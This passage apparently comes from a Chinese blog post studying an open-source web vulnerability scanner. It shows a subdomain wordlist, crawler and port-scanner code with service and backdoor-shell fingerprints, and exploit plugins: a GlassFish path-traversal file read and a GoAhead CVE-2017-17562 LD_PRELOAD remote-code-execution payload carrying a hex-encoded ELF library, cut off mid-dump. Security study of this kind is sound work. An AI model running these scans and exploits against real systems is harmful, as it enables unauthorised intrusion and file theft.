titan
club
portfolio
voice
seo
link
games
mail
software
webapp
kids
apple
connect
join
wp
md
da
ag
hk
video
img1
tools
sdc
info
smtp
tm
cat
history
ns1
lyncdiscover
team
relay
log
www7
list
forum
partner
ls
webtest
monitor
www12
rs
event
s
school
start
analytics
radio
panel
dashboard
top
online
health
pc
ml
ns4
enterprise
feed
sports
venus
code
r
meet
vote
pop
router
imap
maps
phone
pro
mysql
student
www
marketing
m3
assets
darwin
se
iphone
robot
ebook
private
gps
tickets
galaxy
is
nagios
cloud
search
mobile
svn
e
aurora
WWW
music
cc
sync
ads
x
edu
zeus
english
domain
mis
pub
ws
dl
netflow
site
sns
testing
geo
life
img2
css
people
mx2
nm
data
a
de
lib
cp
t
ds
mon
gaia
rt
lms
developer
adm
cn
ocs
wm
pm
register
jp
pics
updates
service
athena
ss
sv
me
community
vip
speed
hades
app
w
labs
autodiscover
d
doc
wifi
whois
acc
pl
bbs
intern
www2
auth
fun
MAIL
game
owa
phoenix
mx10
dns1
www9
piwik
asp
localhost
tour
web
education
journal
newsletter
sec
m
pt
stock
es
power
nexus
manager
studio
sh
admin
linux
proxy
apollo
z
exchange
lg
ps
n
vcs
pic
orange
public
ar
auto
idp
soft
social
js
edge
art
prod
gw2
tiger
km
yellow
web3
update
ns5
sg
open
sd
origin
ci
report
wap
inside
www5
antispam
fr
ra
sftp
vc
news
home
backup
ru
design
b2b
sts
p
feeds
in
wiki
mark
project
file
time
m2
ce
sb
pa
images
h
learning
mini
abc
orion
share
pluto
tv
storage
mcp
antivirus
sip
post
br
travel
green
tg
stream
origin-www
ap
thunder
shopping
vm
mx3
rp
golf
pg
passport
kb
1
tech
www1
access
lion
chat
lb
ts
traffic
ping
transfer
box
mobi
database
build
dc
webmaster
qa
neo
plus
house
cars
nl
gw1
cms
mars
go
mc
up
preview
banner
b
money
static
mirror
world
feedback
files
events
profile
best
survey
it
i2
cafe
s2
store
xxx
image
dm
zabbix
c
cache
focus
t1
webservice
mike
photos
apps
eagle
check
mall
science
new
en
magazine
cas
book
id
bk
matrix
media
blue
repository
star
hub
ticket
vod
study

```

指纹数据基本就这些了，还发现了这个有趣的东西 



应该是个模板，后面会用来自动填充生成文档(我为什么会想到类似的东西可以用来提交cnvd)。 

##  功能的实现 

###  java容器的判断 

先通过cookie等信息查找jsp 



是jsp的话在通过下面指纹查找tomcat或weblogic 



###  ip端口爆破 

爆破直接调用的`hydra`，也不失为一个好方法 



###  爬虫 

url解析没有用其他库，用正则来的,也可以用来解析表单 
```python 
def parse(self,response):
        content_type = response.headers.get('content-type','text')
        if content_type not in ("image","octet-stream"):
            response = response.text
            urls = set()
            urls = urls.union(set(re.findall(r"""src[\s]*:[\s]*["'](.*?)["']""",response)))
            urls = urls.union(set(re.findall(r"""src[\s]*=[\s]*["'](.*?)["']""",response)))
            urls = urls.union(set(re.findall(r"""href[\s]*:[\s]*["'](.*?)["']""",response)))
            urls = urls.union(set(re.findall(r"""href[\s]*=[\s]*["'](.*?)["']""",response)))
            urls = urls.union(set(re.findall(r"""url[\s]*:[\s]*['"](.*?)['"]""",response)))
            urls = urls.union(set(re.findall(r"""url[\s]*=[\s]*['"](.*?)['"]""",response)))
            urls = urls.union(set(re.findall(r'''['"](/[^/\*'"][A-Za-z0-9\.\\/_-]{1,255})['"]''',response)))
            urls = urls.union(set(re.findall(r"""['"]([A-Za-z0-9\.\\/_-]{1,255}[a-zA-Z]\?[a-zA-Z].*?)['"]""",response)))
            urls = urls.union(set(re.findall("""(http[s]?://(?:[-a-zA-Z0-9_]+\.)+[a-zA-Z]+(?::\d+)?(?:/[-a-zA-Z0-9_%./]+)*\??[-a-zA-Z0-9_&%=.]*)""",response)))
            for url in urls:
                if url:
                    req = BaseRequest(self.urljoin(url),headers=self.settings['headers'],proxy=self.settings['proxy'],session=self.session)
                    self.addreq(req)

            if self.settings['level']:
                posts = []
                for f in re.findall(r"""<form([\s\S]*?)</form>""",response):
                    post = {}
                    post['action'] = ''.join(re.findall(r"""action[\s]*=[\s]*["'](.*?)["']""",f)) or './'
                    post['method'] = ''.join(re.findall(r"""method[\s]*=[\s]*["'](.*?)["']""",f)) or 'POST'
                    post['data'] = {}
                    for d in re.findall(r"""<input[\s\S]*?>""",f):
                        name = ''.join(re.findall(r"""name[\s]*=[\s]*["'](.*?)["']""",d))
                        value = ''.join(re.findall(r"""value[\s]*=[\s]*["'](.*?)["']""",d))
                        if not value:value = name
                        post['data'].update({name:value})
                    posts.append(post)
                for post in posts:
                    req = BaseRequest(self.urljoin(post['action']),method=post['method'],data=post['data'],headers=self.settings['headers'],proxy=self.settings['proxy'],session=self.session)
                    self.addreq(req)

```

不爬的数据 
``` 
HEADBLOCK = ('#','data:','javascript:','mailto:','about:','magnet:')
TYPEBLOCK = ('.SWF','.JPEG','.JPG','.PNG','.GIF','.EXE','.PDF','.ZIP','.RAR','.TAR.GZ','.TAR','.GZ')
CRAWL_EXCLUDE_EXTENSIONS = ("3ds", "3g2", "3gp", "7z", "DS_Store", "a", "aac", "adp", "ai", "aif", "aiff", "apk", "ar", "asf", "au", "avi", "bak", "bin", "bk", "bmp", "btif", "bz2", "cab", "caf", "cgm", "cmx", "cpio", "cr2", "dat", "deb", "djvu", "dll", "dmg", "dmp", "dng", "doc", "docx", "dot", "dotx", "dra", "dsk", "dts", "dtshd", "dvb", "dwg", "dxf", "ear", "ecelp4800", "ecelp7470", "ecelp9600", "egg", "eol", "eot", "epub", "exe", "f4v", "fbs", "fh", "fla", "flac", "fli", "flv", "fpx", "fst", "fvt", "g3", "gif", "gz", "h261", "h263", "h264", "ico", "ief", "image", "img", "ipa", "iso", "jar", "jpeg", "jpg", "jpgv", "jpm", "jxr", "ktx", "lvp", "lz", "lzma", "lzo", "m3u", "m4a", "m4v", "mar", "mdi", "mid", "mj2", "mka", "mkv", "mmr", "mng", "mov", "movie", "mp3", "mp4", "mp4a", "mpeg", "mpg", "mpga", "mxu", "nef", "npx", "o", "oga", "ogg", "ogv", "otf", "pbm", "pcx", "pdf", "pea", "pgm", "pic", "png", "pnm", "ppm", "pps", "ppt", "pptx", "ps", "psd", "pya", "pyc", "pyo", "pyv", "qt", "rar", "ras", "raw", "rgb", "rip", "rlc", "rz", "s3m", "s7z", "scm", "scpt", "sgi", "shar", "sil", "smv", "so", "sub", "swf", "tar", "tbz2", "tga", "tgz", "tif", "tiff", "tlz", "ts", "ttf", "uvh", "uvi", "uvm", "uvp", "uvs", "uvu", "viv", "vob", "war", "wav", "wax", "wbmp", "wdp", "weba", "webm", "webp", "whl", "wm", "wma", "wmv", "wmx", "woff", "woff2", "wvx", "xbm", "xif", "xls", "xlsx", "xlt", "xm", "xpi", "xpm", "xwd", "xz", "z", "zip", "zipx")

```

###  插件字段的设计 



###  端口扫描 

和以前看的f-scrack很像 
```python 
import re
import socket
import os
import struct
import array
import time
from threading import Thread
from core.util import CoroutinePool,gethosts,getports
from core.log import logging


PORTS = "1,3-4,6-7,9,13,17,19-26,30,32-33,37,42-43,49,53,70,79-85,88-90,99-100,106,109-111,113,119,125,135,139,143-144," \
        "146,161,163,179,199,211-212,222,254-256,259,264,280,301,306,311,340,366,389,406-407,416-417,425,427,443-445,458," \
        "464-465,481,497,500,512-515,524,541,543-545,548,554-555,563,587,593,616-617,625,631,636,646,648,666-668,683,687," \
        "691,700,705,711,714,720,722,726,749,765,777,783,787,800-801,808,843,873,880,888,898,900-903,911-912,981,987,990," \
        "992-993,995,999-1002,1007,1009-1011,1021-1100,1102,1104-1108,1110-1114,1117,1119,1121-1124,1126,1130-1132,1137-1138," \
        "1141,1145,1147-1149,1151-1152,1154,1163-1166,1169,1174-1175,1183,1185-1187,1192,1198-1199,1201,1213,1216-1218," \
        "1233-1234,1236,1244,1247-1248,1259,1271-1272,1277,1287,1296,1300-1301,1309-1311,1322,1328,1334,1352,1417," \
        "1433-1434,1443,1455,1461,1494,1500-1501,1503,1521,1524,1533,1556,1580,1583,1594,1600,1641,1658,1666,1687-1688," \
        "1700,1717-1721,1723,1755,1761,1782-1783,1801,1805,1812,1839-1840,1862-1864,1875,1900,1914,1935,1947,1971-1972," \
        "1974,1984,1998-2010,2013,2020-2022,2030,2033-2035,2038,2040-2043,2045-2049,2065,2068,2099-2100,2103,2105-2107," \
        "2111,2119,2121,2126,2135,2144,2160-2161,2170,2179,2190-2191,2196,2200,2222,2251,2260,2288,2301,2323,2366,2381-2383," \
        "2393-2394,2399,2401,2492,2500,2522,2525,2557,2601-2602,2604-2605,2607-2608,2638,2701-2702,2710,2717-2718,2725," \
        "2800,2809,2811,2869,2875,2909-2910,2920,2967-2968,2998,3000-3001,3003,3005-3007,3011,3013,3017,3030-3031,3050," \
        "3052,3071,3077,3128,3168,3211,3221,3260-3261,3268-3269,3283,3300-3301,3306,3322-3325,3333,3351,3367,3369-3372," \
        "3389-3390,3404,3476,3493,3517,3527,3546,3551,3580,3659,3689-3690,3703,3737,3766,3784,3800-3801,3809,3814," \
        "3826-3828,3851,3869,3871,3878,3880,3889,3905,3914,3918,3920,3945,3971,3986,3995,3998,4000-4006,4045,4111," \
        "4125-4126,4129,4224,4242,4279,4321,4343,4443-4446,4449,4550,4567,4662,4848,4899-4900,4998,5000-5004,5009," \
        "5030,5033,5050-5051,5054,5060-5061,5080,5087,5100-5102,5120,5190,5200,5214,5221-5222,5225-5226,5269,5280," \
        "5298,5357,5405,5414,5431-5432,5440,5500,5510,5544,5550,5555,5560,5566,5631,5633,5666,5678-5679,5718,5730," \
        "5800-5802,5810-5811,5815,5822,5825,5850,5859,5862,5877,5900-5904,5906-5907,5910-5911,5915,5922,5925,5950,5952," \
        "5959-5963,5987-5989,5998-6007,6009,6025,6059,6100-6101,6106,6112,6123,6129,6156,6346,6389,6502,6510,6543,6547," \
        "6565-6567,6580,6646,6666-6669,6689,6692,6699,6779,6788-6789,6792,6839,6881-6890,6901,6969,7000-7002,7004,7007,7019," \
        "7025,7070,7100,7103,7106,7200-7201,7402,7435,7443,7496,7512,7625,7627,7676,7741,7777-7778,7800,7911,7920-7921," \
        "7937-7938,7999-8999,20880," \
        "9000-9003,9009-9011,9040,9050,9071,9080-9081,9090-9091,9099-9103,9110-9111,9200,9207,9220,9290,9415,9418,9485," \
        "9500,9502-9503,9535,9575,9593-9595,9618,9666,9876-9878,9898,9900,9917,9943-9944,9968,9998-10004,10009-10010,10012," \
        "10024-10025,10082,10180,10215,10243,10566,10616-10617,10621,10626,10628-10629,10778,11110-11111,11967,12000,12174," \
        "12265,12345,13456,13722,13782-13783,14000,14238,14441-14442,15000,15002-15004,15660,15742,16000-16001,16012,16016," \
        "16018,16080,16113,16992-16993,17877,17988,18040,18101,18988,19101,19283,19315,19350,19780,19801,19842,20000,20005," \
        "20031,20221-20222,20828,21571,22939,23502,24444,24800,25734-25735,26214,27000,27352-27353,27355-27356,27715,28201," \
        "30000,30718,30951,31038,31337,32768-32785,33354,33899,34571-34573,35500,38292,40193,40911,41511,42510,44176,44442-44443," \
        "44501,45100,48080,49152-49161,49163,49165,49167,49175-49176,49400,49999-50003,50006,50300,50389,50500,50636,50800,51103," \
        "51493,52673,52822,52848,52869,54045,54328,55055-55056,55555,55600,56737-56738,57294,57797,58080,60020,60443,61532,61900,62078,63331,64623,64680,65000,65129,65389"

SIGNS = (
    #协议 | 版本 | 关键字
    b'smb|smb|^\0\0\0.\xffSMBr\0\0\0\0.*',
    b"xmpp|xmpp|^\<\?xml version='1.0'\?\>",

    b'netbios|netbios|^\x79\x08.*BROWSE',
    b'netbios|netbios|^\x79\x08.\x00\x00\x00\x00',
    b'netbios|netbios|^\x05\x00\x0d\x03',
    b'netbios|netbios|^\x82\x00\x00\x00',
    b'netbios|netbios|\x83\x00\x00\x01\x8f',

    b'backdoor|backdoor|^500 Not Loged in',
    b'backdoor|backdoor|GET: command',
    b'backdoor|backdoor|sh: GET:',
    b'bachdoor|bachdoor|[a-z]*sh: .* command not found',
    b'backdoor|backdoor|^bash[$#]',
    b'backdoor|backdoor|^sh[$#]',
    b'backdoor|backdoor|^Microsoft Windows',
    b'db2|db2|.*SQLDB2RA',
    b'dell-openmanage|dell-openmanage|^\x4e\x00\x0d',
    b'finger|finger|^\r\n   Line      User',
    b'finger|finger|Line     User',
    b'finger|finger|Login name: ',
    b'finger|finger|Login.*Name.*TTY.*Idle',
    b'finger|finger|^No one logged on',
    b'finger|finger|^\r\nWelcome',
    b'finger|finger|^finger:',
    b'finger|finger|^must provide username',
    b'finger|finger|finger: GET: ',
    b'ftp|ftp|^220.*\n331',
    b'ftp|ftp|^220.*\n530',
    b'ftp|ftp|^220.*FTP',
    b'ftp|ftp|^220 .* Microsoft .* FTP',
    b'ftp|ftp|^220 Inactivity timer',
    b'ftp|ftp|^220 .* UserGate',
    b'ftp|ftp|^220.*FileZilla Server',

    b'ldap|ldap|^\x30\x0c\x02\x01\x01\x61',
    b'ldap|ldap|^\x30\x32\x02\x01',
    b'ldap|ldap|^\x30\x33\x02\x01',
    b'ldap|ldap|^\x30\x38\x02\x01',
    b'ldap|ldap|^\x30\x84',
    b'ldap|ldap|^\x30\x45',

    b'ldp|ldp|^\x00\x01\x00.*?\r\n\r\n$',

    b'rdp|rdp|^\x03\x00\x00\x0b',
    b'rdp|rdp|^\x03\x00\x00\x11',
    b'rdp|rdp|^\x03\0\0\x0b\x06\xd0\0\0\x12.\0$',
    b'rdp|rdp|^\x03\0\0\x17\x08\x02\0\0Z~\0\x0b\x05\x05@\x06\0\x08\x91J\0\x02X$',
    b'rdp|rdp|^\x03\0\0\x11\x08\x02..}\x08\x03\0\0\xdf\x14\x01\x01$',
    b'rdp|rdp|^\x03\0\0\x0b\x06\xd0\0\0\x03.\0$',
    b'rdp|rdp|^\x03\0\0\x0b\x06\xd0\0\0\0\0\0',
    b'rdp|rdp|^\x03\0\0\x0e\t\xd0\0\0\0[\x02\xa1]\0\xc0\x01\n$',
    b'rdp|rdp|^\x03\0\0\x0b\x06\xd0\0\x004\x12\0',
    b'rdp-proxy|rdp-proxy|^nmproxy: Procotol byte is not 8\n$',

    b'msrpc|msrpc|^\x05\x00\x0d\x03\x10\x00\x00\x00\x18\x00\x00\x00\x00\x00',
    b'msrpc|msrpc|\x05\0\r\x03\x10\0\0\0\x18\0\0\0....\x04\0\x01\x05\0\0\0\0$',
    b'mssql|mssql|^\x05\x6e\x00',
    b'mssql|mssql|^\x04\x01',
    b'mssql|mysql|;MSSQLSERVER;',

    b'mysql|mysql|mysql_native_password',
    b'mysql|mysql|^\x19\x00\x00\x00\x0a',
    b'mysql|mysql|^\x2c\x00\x00\x00\x0a',
    b'mysql|mysql|hhost \'',
    b'mysql|mysql|khost \'',
    b'mysql|mysql|mysqladmin',
    b'mysql|mysql|whost \'',
    b'mysql|mysql|^[.*]\x00\x00\x00\n.*?\x00',
    b'mysql-secured|mysql|this MySQL server',
    b'mysql-secured|MariaDB|MariaDB server',
    b'mysql-secured|mysql-secured|\x00\x00\x00\xffj\x04Host',

    b'db2jds|db2jds|^N\x00',

    b'nagiosd|nagiosd|Sorry, you \(.*are not among the allowed hosts...',
    b'nessus|nessus|< NTP 1.2 >\x0aUser:',
    b'oracle-tns-listener|\(ERROR_STACK=\(ERROR=\(CODE=',
    b'oracle-tns-listener|\(ADDRESS=\(PROTOCOL=',
    b'oracle-dbsnmp|^\x00\x0c\x00\x00\x04\x00\x00\x00\x00',
    b'oracle-https|^220- ora',
    b'rmi|rmi|\x00\x00\x00\x76\x49\x6e\x76\x61',
    b'rmi|rmi|^\x4e\x00\x09',
    b'postgresql|postgres|Invalid packet length',
    b'postgresql|postgres|^EFATAL',

    b'rpc-nfs|rpc-nfs|^\x02\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x01\x00\x00\x00\x00',
    b'rpc|rpc|\x01\x86\xa0',
    b'rpc|rpc|\x03\x9b\x65\x42\x00\x00\x00\x01',
    b'rpc|rpc|^\x80\x00\x00',
    b'rsync|rsync|^@RSYNCD:',
    b'smux|smux|^\x41\x01\x02\x00',
    b'snmp-public|snmp-public|\x70\x75\x62\x6c\x69\x63\xa2',
    b'snmp|snmp|\x41\x01\x02',
    b'socks|socks|^\x05[\x00-\x08]\x00',
    b'ssl|ssl|^..\x04\0.\0\x02',
    b'ssl|ssl|^\x16\x03\x01..\x02...\x03\x01',
    b'ssl|ssl|^\x16\x03\0..\x02...\x03\0',
    b'ssl|ssl|SSL.*GET_CLIENT_HELLO',
    b'ssl|ssl|^-ERR .*tls_start_servertls',
    b'ssl|ssl|^\x16\x03\0\0J\x02\0\0F\x03\0',
    b'ssl|ssl|^\x16\x03\0..\x02\0\0F\x03\0',
    b'ssl|ssl|^\x15\x03\0\0\x02\x02\.*',
    b'ssl|ssl|^\x16\x03\x01..\x02...\x03\x01',
    b'ssl|ssl|^\x16\x03\0..\x02...\x03\0',
    b'sybase|sybase|^\x04\x01\x00',

    b'telnet|telnet|Telnet',
    b'telnet|telnet|^\xff[\xfa-\xff]',
    b'telnet|telnet|^\r\n%connection closed by remote host!\x00$',

    b'rlogin|rlogin|login: ',
    b'rlogin|rlogin|rlogind: ',
    b'rlogin|rlogin|^\x01\x50\x65\x72\x6d\x69\x73\x73\x69\x6f\x6e\x20\x64\x65\x6e\x69\x65\x64\x2e\x0a',

    b'tftp|tftp|^\x00[\x03\x05]\x00',
    b'uucp|uucp|^login: password: ',
    b'vnc|vnc|^RFB',

    b'imap|imap|^\* OK.*?IMAP',
    b'pop|pop|^\+OK.*?',
    b'smtp|smtp|^220.*?SMTP',
    b'smtp|smtp|^554 SMTP',
    b'ftp|ftp|^220-',
    b'ftp|ftp|^220.*?FTP',
    b'ftp|ftp|^220.*?FileZilla',

    b'ssh|ssh|^SSH-',
    b'ssh|ssh|connection refused by remote host.',

    b'rtsp|rtsp|^RTSP/',
    b'sip|sip|^SIP/',
    b'nntp|nntp|^200 NNTP',
    b'sccp|sccp|^\x01\x00\x00\x00$',

    b'webmin|webmin|.*MiniServ',
    b'webmin|webmin|^0\.0\.0\.0:.*:[0-9]',
    b'websphere-javaw|websphere-javaw|^\x15\x00\x00\x00\x02\x02\x0a',

    b'smb|smb|^\x83\x00\x00\x01\x8f',
    b'mongodb|mongodb|MongoDB',

    b'rsync|rsync|@RSYNCD:',
    b'mssql|mssql|MSSQLSERVER',

    b'vmware|vmware|VMware',

    b'redis|redis|^-ERR unknown command',
    b'redis|redis|^-ERR wrong number of arguments',
    b'redis|redis|^-DENIED Redis is running',

    b'memcached|memcached|^ERROR\r\n',

    b'websocket|websocket|^HTTP.*?websocket',

    b'http|http|^HTTP/',
    b'http|https|^\<!DOCTYPE HTML PUBLIC',
    b'http|topsec|^\x15\x03\x03\x00\x02\x02',   #天融信网站安全监控系统

    b'svn|svn|^\( success \( 2 2 \( \) \( edit-pipeline svndiff1',
    b'dubbo|dubbo|^Unsupported command',
)

SERV = {
    '21'    :'ftp',
    '22'    :'ssh',
    '23'    :'telnet',
    '25'    :'smtp',
    '53'    :'dns',
    '80'    :'http',
    '110'   :'pop',
    '135'   :'ntebios',
    '139'   :'ntebios',
    '161'   :'snmp',
    '389'   :'ldap',
    '443'   :'https',
    '445'   :'smb',
    '873'   :'rsync',
    '1080'  :'socks',
    '3389'  :'rdp',
    '3306'  :'mysql',
    '3690'  :'svn',
    '1433'  :'mssql',
    '1521'  :'oracle',
    '5432'  :'postgresql',
    '6379'  :'redis',
    '8080'  :'http',
    '11211' :'memcached',
    '27017' :'mongodb',
    '2181'  :'zookeeper',
    '50000' :'db2',
}
#开多线程时monkey会阻塞住线程的继续执行，需要对monkey.patch_all进行处理
#https://stackoverflow.com/questions/9192539/using-gevent-monkey-patching-with-threading-makes-thread-work-serially

class SendPingThr(Thread):
    def __init__(self, iplist, icmpPacket, icmpSocket, timeout=5):
        Thread.__init__(self)
        self.sock = icmpSocket
        self.iplist = iplist
        self.packet = icmpPacket
        self.timeout = timeout
        self.sock.settimeout(timeout + 3 )

    def run(self):
        time.sleep(1)  #等待接收线程启动
        for ip in self.iplist:
            try:
                self.sock.sendto(self.packet, (ip, 0))
            except socket.timeout:
                break
        time.sleep(1) #等待接收线程完成

class Nscan(object):
    def __init__(self, timeout=5, IPv6=False):
        self.timeout = timeout
        self.IPv6 = IPv6
        self.__data = struct.pack('d', time.time())   #用于ICMP报文的负荷字节（8bit）
        self.__id = os.getpid()   #构造ICMP报文的ID字段，无实际意义

    @property
    def __icmpSocket(self):
        '''创建ICMP Socket'''
        if not self.IPv6:
            Sock = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.getprotobyname("icmp"))
        else:
            Sock = socket.socket(socket.AF_INET6, socket.SOCK_RAW, socket.getprotobyname("ipv6-icmp"))
        return Sock

    def __inCksum(self, packet):
        '''ICMP 报文效验和计算方法'''
        if len(packet) & 1:
            packet = packet + '\\0'
        words = array.array('h', packet)
        sum = 0
        for word in words:
            sum += (word & 0xffff)
        sum = (sum >> 16) + (sum & 0xffff)
        sum = sum + (sum >> 16)
        return (~sum) & 0xffff

    @property
    def __icmpPacket(self):
        '''构造 ICMP 报文'''
        if not self.IPv6:
            header = struct.pack('bbHHh', 8, 0, 0, self.__id, 0) # TYPE、CODE、CHKSUM、ID、SEQ
        else:
            header = struct.pack('BbHHh', 128, 0, 0, self.__id, 0)

        packet = header + self.__data   # packet without checksum
        chkSum = self.__inCksum(packet) # make checksum

        if not self.IPv6:
            header = struct.pack('bbHHh', 8, 0, chkSum, self.__id, 0)
        else:
            header = struct.pack('BbHHh', 128, 0, chkSum, self.__id, 0)
        return header + self.__data   # packet *with* checksum

    def isUnIP(self, IP):
        '''判断IP是否是一个合法的单播地址'''
        IP = [int(x) for x in IP.split('.') if x.isdigit()]
        if len(IP) == 4:
            if (0 < IP[0] < 223 and IP[0] != 127 and IP[1] < 256 and IP[2] < 256 and 0 < IP[3] < 255):
                return True
        return False

    def ping(self, iplist):
        sock = self.__icmpSocket
        sock.settimeout(self.timeout)
        packet = self.__icmpPacket
        recvFroms = set()   #接收线程的来源IP地址容器
        iplist = {ip for ip in iplist if self.isUnIP(ip)}
        sendThr = SendPingThr(iplist, packet, sock, self.timeout)
        sendThr.start()
        while True:
            logging.load('recv %s'%time.time())
            try:
                recvFroms.add(sock.recvfrom(255)[1][0])
            except Exception as e:
                pass#sleep(0.001)#print('ping',e)
            finally:
                if not sendThr.isAlive():
                    break
        return recvFroms & iplist

class PortScan(object):
    def __init__(self,hosts,ports=None,neping=None,threads=None,timeout=None):
        self.hosts = gethosts(hosts)
        self.ports = getports(ports) if ports else getports(PORTS)
        self.neping = neping and True
        self.threads = threads or 100
        self.timeout = timeout or 10
        self.result = {}

    def scan(self):
        hosts = self.ping(self.hosts) if self.neping else self.hosts
        pool = CoroutinePool(self.threads)
        for host in hosts:
            for port in self.ports:
                pool.spawn(self.addret,host,port)
        pool.join()
        return self.result

    def ping(self,hosts):
        return list(Nscan().ping(set(hosts)))

    def port(self,host,port):
        logging.load('[scan %s - %s    ]'%(host,port))
        isopen = False
        data = b''
        s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.settimeout(self.timeout)
        try:
            s.connect((host,int(port)))
            isopen = True
        except Exception as e:# socket.timeout ConnectionRefusedError
            pass#print('1',e)
            s.close()
            return isopen,data
        try:
            data = s.recv(256)
            return isopen,data
        except Exception as e:
            pass#print('2',e)
        try:
            a = ('GET / HTTP/1.1\r\nHOST: %s\r\n\r\n'%host)
            s.sendall(a.encode())
            data = s.recv(256)
            return isopen,data
            #print(data.decode('gbk','ignore'))
        except Exception as e:
            pass#print('3',e)
        finally:
            s.close()   #关闭连接
            return isopen,data

    def addret(self,host,port):
        isopen,data = self.port(host,port)
        protocol = 'unknow'
        softver = 'unknow'
        if data:
            for s in SIGNS:
                try:
                    s = s.split(b'|')
                    if re.search(s[-1],data,re.IGNORECASE):
                        protocol = s[0].decode()
                        softver =  s[1].decode()
                        break
                except Exception as e:
                    print(e,s[-1],host,port,data)
            if protocol == 'unknow' and str(port) in SERV.keys():
                protocol = SERV[str(port)]
        if isopen:
            if host not in self.result:
                self.result[host] = {}
                self.result[host]['hostname']   = ''
                self.result[host]['mac']        = ''
                self.result[host]['status']     = 'up'
                self.result[host]['ostype']     = ''
                self.result[host]['ports']      = set()
            self.result[host]['ports'].add((
                host,
                port,
                'tcp',
                'open',
                protocol,
                '',
                '',
                softver,
                data))

if __name__=='__main__':
    s=PortScan('59.41.129.37',neping=0)
    for h,v in s.scan():
        print(h)
        for p in v['ports']:
            print('    ',p[1],p[2],p[4])

```

###  报告处理 



转换其他的报告 

##  漏洞插件 

`payloads`文件夹下有一些漏洞插件也值得学习,把我没见过的都贴出来。 
```python 
class GlassFishReadFile(BaseWebPlugin):
    bugname = "glassfish 任意文件读取漏洞"
    bugrank = "高危"
    bugdesc = """java 中会把 "%c0%ae" 解析为 "\uC0AE" ，最后转义为 ASCCII 字符的 "." （点）。读取任意文件。"""
    bugnote = "http://www.wooyun.org/bugs/wooyun-2010-0144595"

    def filter(self, web):
        return 'glassfish' in web.content or 'JAVA' in web.xpoweredby

    def verify(self,web,user='',pwd='',timeout=10):
        headers = {
            "User-Agent":"Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50"
        }
        payload = "/theme/META-INF/%c0%ae%c0%ae/META-INF/MANIFEST.MF"
        vulnurl = web.url + payload
        try:
            req = requests.get(vulnurl, headers=headers, timeout=10, verify=False)
            if "Version" in req.text:
                self.bugaddr = vulnurl
                self.bugres = req.text
                return True
        except Exception as e:
            print(e)

```
```python 
class GoaHead_LD_PRELOAD_rce(BaseWebPlugin):
    bugname = "GoAhead LD_PRELOAD远程代码执行"
    bugrank = "高危"
    bugdesc = """该漏洞源于使用不受信任的HTTP请求参数初始化CGI脚本环境，
            并且会影响所有启用了动态链接可执行文件（CGI脚本）支持的用户。
            当与glibc动态链接器结合使用时，使用特殊变量（如LD_PRELOAD）可以滥用该漏洞，从而导致远程代码执行。"""
    bugnote = "http://www.freebuf.com/articles/web/157673.html"
    bugnumber = "CVE-2017-17562"

    def filter(self, web):
        return 'goahead' in web.content

    def verify(self,web,user='',pwd='',timeout=10):
        headers = {
            "User-Agent":"Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50"
        }
        payload = "?LD_PRELOAD=/proc/self/fd/0"
        vulnurl = web.url + payload
        try:
            data = "7F 45 4C 46 02 01 01 00 00 00 00 00 00 00 00 00 03 00 3E 00 01 00 00 00 20 05 00 00 00 00 00 00 40 00 00 00 00 00 00 00 D0 17 00 00 00 00 00 00 00 00 00 00 40 00 38 00 07 00 40 00 1C 00 1B 00 01 00 00 00 05 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 F4 06 00 00 00 00 00 00 F4 06 00 00 00 00 00 00 00 00 20 00 00 00 00 00 01 00 00 00 06 00 00 00 08 0E 00 00 00 00 00 00 08 0E 20 00 00 00 00 00 08 0E 20 00 00 00 00 00 20 02 00 00 00 00 00 00 28 02 00 00 00 00 00 00 00 00 20 00 00 00 00 00 02 00 00 00 06 00 00 00 20 0E 00 00 00 00 00 00 20 0E 20 00 00 00 00 00 20 0E 20 00 00 00 00 00 C0 01 00 00 00 00 00 00 C0 01 00 00 00 00 00 00 08 00 00 00 00 00 00 00 04 00 00 00 04 00 00 00 C8 01 00 00 00 00 00 00 C8 01 00 00 00 00 00 00 C8 01 00 00 00 00 00 00 24 00 00 00 00 00 00 00 24 00 00 00 00 00 00 00 04 00 00 00 00 00 00 00 50 E5 74 64 04 00 00 00 54 06 00 00 00 00 00 00 54 06 00 00 00 00 00 00 54 06 00 00 00 00 00 00 24 00 00 00 00 00 00 00 24 00 00 00 00 00 00 00 04 00 00 00 00 00 00 00 51 E5 74 64 06 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 10 00 00 00 00 00 00 00 52 E5 74 64 04 00 00 00 08 0E 00 00 00 00 00 00 08 0E 20 00 00 00 00 00 08 0E 20 00 00 00 00 00 F8 01 00 00 00 00 00 00 F8 01 00 00 00 00 00 00 01 00 00 00 00 00 00 00 04 00 00 00 14 00 00 00 03 00 00 00 47 4E 55 00 35 50 0B 43 AE 91 4B A8 20 7D 7D F4 8D D9 86 9A 6B 4C B3 5C 00 00 00 00 03 00 00 00 06 00 00 00 01 00 00 00 06 00 00 00 88 C0 20 01 00 04 40 09 06 00 00 00 08 00 00 00 0A 00 00 00 42 45 D5 EC BB E3 92 7C D8 71 58 1C B9 8D F1 0E EB D3 EF 0E 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 1C 00 00 00 20 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 61 00 00 00 12 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 01 00 00 00 20 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 38 00 00 00 20 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 52 00 00 00 22 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 71 00 00 00 10 00 16 00 28 10 20 00 00 00 00 00 00 00 00 00 00 00 00 00 84 00 00 00 10 00 17 00 30 10 20 00 00 00 00 00 00 00 00 00 00 00 00 00 78 00 00 00 10 00 17 00 28 10 20 00 00 00 00 00 00 00 00 00 00 00 00 00 10 00 00 00 12 00 09 00 D8 04 00 00 00 00 00 00 00 00 